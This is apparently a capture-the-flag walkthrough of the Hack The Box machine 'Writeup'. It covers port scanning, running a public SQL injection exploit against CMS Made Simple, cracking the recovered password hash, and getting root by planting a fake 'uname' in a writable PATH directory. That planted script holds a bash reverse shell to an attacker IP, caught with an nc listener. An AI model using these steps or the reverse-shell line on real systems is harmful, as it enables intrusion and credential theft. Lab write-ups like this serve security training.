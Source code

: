 Target: 10.10.10.138  

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.138         

Nmap scan report for 10.10.10.138
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.138  

![index](writeup1.png)

checking robots.txt

![robots.txt](writeup2.png)

checking /writeup

![/writeup](writeup3.png)

checking src:/writeup

![src:/writeup](writeup4.png)

### Findings:Looking for attack vectors

Search for exploits for cms made simpl and its version.

## Foothold:

searching for the cms version in google 

![cms version](writeup5.png)

downloading the exploit
```
wget https://www.exploit-db.com/raw/46635
```

editing exploit to run in python3

[edit guide link](https://gist.github.com/pdelteil/6ebac2290a6fb33eea1af194485a22b1)

running the exploit
```
$ python3 46635.py -u http://10.10.10.138/writeup

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

preparing hash
```
$ vim nhash.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

cracking the hash
```
$ hashcat -m 20 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt

$ cat crack.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

Loot:

`jkr:raykayjay9`

testing for password re-use
```
$ ssh jkr@10.10.10.138                                  

jkr@writeup:~$ id

uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

```
jkr@writeup:~$ cat user.txt 

<redacted>
```


## Priv Escalations:

enumerating with pspy while attempting an ssh login
```
jkr@writeup:~$ ./pspy32

<snip>
2021/07/05 00:59:20 CMD: UID=0    PID=26989  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new                                  
2021/07/05 00:59:20 CMD: UID=0    PID=26990  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/05 00:59:20 CMD: UID=0    PID=26991  | /bin/sh /etc/update-motd.d/10-uname 
<snip>
```

enumerating file
```
jkr@writeup:~$ cat /etc/update-motd.d/10-uname

#!/bin/sh
uname -rnsom
```

enumerating with linpeas
```
<snip>
[+] PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses     
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games     
New path exported: /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin
<snip>
```

exploiting writable path
```
jkr@writeup:~$ cd /tmp

echo "bash -i >& /dev/tcp/10.10.14.10/9001 0>&1" > uname

chmod 777 uname

cp uname /usr/local/bin/
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

attempting an ssh login
```
$ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
```

```
# id 

uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt

<redacted>
```
